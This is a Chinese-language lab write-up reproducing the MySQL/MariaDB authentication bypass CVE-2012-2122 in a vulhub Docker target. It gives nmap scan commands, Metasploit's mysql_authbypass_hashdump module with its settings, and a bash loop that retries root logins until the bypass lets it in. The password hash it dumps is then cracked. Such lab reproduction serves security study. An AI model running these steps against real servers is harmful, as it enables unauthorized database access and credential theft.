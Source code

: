 # Mysql身份认证绕过漏洞（CVE-2012-2122）

## 漏洞描述

当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库

## 漏洞原理

![](Mysql身份认证绕过漏洞（CVE-2012-2122）.assets/未命名表单.png)

## 影响版本

MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.

MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段

#### 启动靶场

```
cd /home/radiuscircle/vulhub/mysql/CVE-2012-2122
docker-compose up -d
```

![image-20211122191255299](Mysql身份认证绕过漏洞（CVE-2012-2122）.assets/image-20211122191255299.png)

#### 信息收集

使用nmap 对靶机进行扫描，查看所开放的端口，以及扫描数据库的版本信息

```
sudo nmap -T4 -sV -O -p 3306 192.168.180.129
```

发现目标主机开放端口3306

![image-20211122193010390](Mysql身份认证绕过漏洞（CVE-2012-2122）.assets/image-20211122193010390.png)

### 漏洞利用

#### 1、msf

使用msf扫描模块

```
┌──(cnandy㉿kali)-[~/桌面]
└─$ msfconsole
# 启动msf                
Metasploit tip: Search can apply complex filters such as 
search cve:2009 type:exploit, see all the filters 
with help search
# 选择需要的模块
msf6 > use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > show options
# 查看选项
Module options (auxiliary/scanner/mysql/mysql_authbypass_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   RHOSTS                     yes       The target host(s), range CIDR iden
                                        tifier, or hosts file with syntax '
                                        file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (m
                                        ax one per host)
   USERNAME  root             yes       The username to authenticate as
# 配置参数
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > set rhosts 192.168.180.129
rhosts => 192.168.180.129
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > set threads 20
threads => 20
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > exploit
# 运行
```

![image-20211122194220735](Mysql身份认证绕过漏洞（CVE-2012-2122）.assets/image-20211122194220735.png)

可以看到破译出的经过MD5加密之后的root密码

解密

![image-20211122194717862](Mysql身份认证绕过漏洞（CVE-2012-2122）.assets/image-20211122194717862.png)

连接mysql数据库

![image-20211122194840381](Mysql身份认证绕过漏洞（CVE-2012-2122）.assets/image-20211122194840381.png)

连接成功

#### 2、shell脚本

```
vim test.sh
#!/bin/bash
for ((i = 1; i < 1000; i++))  # 循环1000次
do
        mysql -h 192.168.216.189 -u root -p111111 -P 3306;
done
```

执行

```
bash test.sh
```

![image-20211122195515117](Mysql身份认证绕过漏洞（CVE-2012-2122）.assets/image-20211122195515117.png)

经过短暂的运行，成功连接mysql数据库

### 关闭容器

```
docker-compose down
```


